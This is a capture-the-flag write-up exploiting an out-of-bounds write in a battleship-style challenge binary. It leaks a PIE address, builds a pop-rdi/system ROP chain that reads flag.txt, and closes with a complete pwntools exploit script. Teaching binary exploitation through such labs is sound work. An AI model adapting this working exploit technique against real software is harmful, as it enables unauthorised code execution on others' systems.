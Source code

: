 # Write-Up: Adventure! on the High C

The program suffers an out-of-bound vulnerability that grants arbitrary read and arbitrary write.

```
Enter the row (0-9, a-f) >>> -1
Enter the column (0-9, a-f) >>> -1
Choose missile type - Tomahawk (T), Hellfire (H), SideWinder (S), Custom (C) >>> C
Enter a custom missile as a single ASCII character >>> A
<<< Fired outside board, corrupting 0x7ffe30f641ef from 00 to 41!
```

Just go ahead and automate finding leaks:

```python

def ret_leak(offset):
    addr = b''
    for i in range(offset,offset+8):
        p.sendlineafter(b'Enter the row (0-9, a-f) >>>',f'-1'.encode(),timeout=TIMEOUT)
        p.sendlineafter(b'Enter the column (0-9, a-f) >>>',f'{i+offset}'.encode(),timeout=TIMEOUT)
        p.sendlineafter(b'Custom (C) >>>',b'C',timeout=TIMEOUT)
        p.sendlineafter(b'ASCII character >>>',b'H',timeout=TIMEOUT)
        p.recvuntil(b'<<< Fired outside board, corrupting')
        p.recvuntil(b'from ')
        addr=p.recv(2)+addr

    addr = int(addr,16)
    return addr

def ret_leaks():
    for i in range(0,600,8):
        addr=ret_leak(i)
        log.info(f'Offset: {i}, Addr: {hex(addr)}')
```

This ends up leaking a ``PIE`` address at offset ``312``. Since the program has full RELRO, we cannot overwrite the GOT. However, it does appear to have several useful ``strings``, a ``pop rdi, ret`` gadget, and a ``system plt entry``. So we can probably write a useful ROP chain directly to the stack.

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

After playing with it for a while, you should be able to find a decent location to write my gadget. I discovered a location that was triggered onbly after the game ended. 

```python
    stack_write(chain,offset)
    end_game()
```

A couple pitfalls that I ran into. On initial remote testing, the server was terminating the connection prior to outputing the results of ``cat flag.txt``. So I added a ``sleep 60`` for the players. 

```python
chain = p64(ret)*4
chain += p64(pop_rdi)
chain += p64(sh) # cat flag.txt
chain += p64(ret)
chain += p64(system) system('cat flag.txt')
chain += p64(ret)*4
chain += p64(pop_rdi)
chain += p64(slep) # sleep 60
chain += p64(ret)
chain += p64(system) system('sleep 60')
```

Also there are some bad bytes that cannot be used. I just added a check in my script to determine if they get picked up and I terminate and try again.

```python
def chain_has_bad_bytes(chain):
    bad_bytes = bytes([0x09, 0x0A, 0x0B, 0x0C, 0x20])
    if any(b in chain for b in bad_bytes):
        return True
    return False
```

Final script follows

```python
from pwn import *
import sys

binary = args.BIN
context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary,checksec=False)

if args.REMOTE:
    TIMEOUT = 0.5
else:
    TIMEOUT = 0.1

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        HOST=args.HOST
        PORT=args.PORT
        return remote(HOST,PORT)
    else:
        return process(e.path)

def end_game():
    log.info('Carpet Bombing All Ships To End Game...')
    try:
        for i in range(256,512):
            p.sendlineafter(b'Enter the row (0-9, a-f) >>>',f'1'.encode(),timeout=TIMEOUT)
            p.sendlineafter(b'Enter the column (0-9, a-f) >>>',f'{i}'.encode(),timeout=TIMEOUT)
            p.sendlineafter(b'Custom (C) >>>',b'C',timeout=TIMEOUT)
            p.sendlineafter(b'ASCII character >>>',b'H',timeout=TIMEOUT)
    except:
        log.info('Bombing Run Complete')


def ret_leak(offset):
    addr = b''
    for i in range(offset,offset+8):
        p.sendlineafter(b'Enter the row (0-9, a-f) >>>',f'-1'.encode(),timeout=TIMEOUT)
        p.sendlineafter(b'Enter the column (0-9, a-f) >>>',f'{i+offset}'.encode(),timeout=TIMEOUT)
        p.sendlineafter(b'Custom (C) >>>',b'C',timeout=TIMEOUT)
        p.sendlineafter(b'ASCII character >>>',b'H',timeout=TIMEOUT)
        p.recvuntil(b'<<< Fired outside board, corrupting')
        p.recvuntil(b'from ')
        addr=p.recv(2)+addr

    addr = int(addr,16)
    return addr

'''
def ret_leaks():
    for i in range(0,600,8):
        addr=ret_leak(i)
        log.info(f'Offset: {i}, Addr: {hex(addr)}')
'''

def stack_write(chain,offset):
    try:
        log.info(f'Writing to Stack...')
        for i in range(0,len(chain)):
            p.sendlineafter(b'Enter the row (0-9, a-f) >>>',f'1'.encode(),timeout=TIMEOUT)
            p.sendlineafter(b'Enter the column (0-9, a-f) >>>',f'{i+offset}'.encode(),timeout=TIMEOUT)
            p.sendlineafter(b'Custom (C) >>>',b'C',timeout=TIMEOUT)
            p.sendlineafter(b'ASCII character >>>',bytes([chain[i]]),timeout=TIMEOUT)
    except:
        log.info("Lost before finished stack write. Try again.")
        sys.exit()
        
def chain_has_bad_bytes(chain):
    bad_bytes = bytes([0x09, 0x0A, 0x0B, 0x0C, 0x20])
    if any(b in chain for b in bad_bytes):
        return True
    return False

def throw_sploit():
    offset = 520
    pie_addr = ret_leak(312) 
    e.address=pie_addr-0x3d80
    log.info(f'PIE Base: {hex(e.address)}')

    r = ROP(e)
    pop_rdi = r.find_gadget(['pop rdi','ret'])[0]
    ret = r.find_gadget(['ret'])[0]
    sh =next(e.search(b'cat<flag.txt\0'))
    slep =next(e.search(b'sleep 60\0'))
    system = e.sym['system']

    log.info(f'Ret Gadget: {hex(ret)}')
    log.info(f'Pop RDI Gadget: {hex(pop_rdi)}')
    
    chain = p64(ret)*4
    chain += p64(pop_rdi)
    chain += p64(sh)
    chain += p64(ret)
    chain += p64(system)
    chain += p64(ret)*4
    chain += p64(pop_rdi)
    chain += p64(slep)
    chain += p64(ret)
    chain += p64(system)

    if chain_has_bad_bytes(chain):
       log.warn(f'Try Again. Bad Byte in Gadgets')
       p.close()
       return False

    stack_write(chain,offset)
    end_game()
    p.interactive()
    return True

while True:
    p = start()
    sploit_landed = throw_sploit()
    if sploit_landed or args.GDB:
        break
```
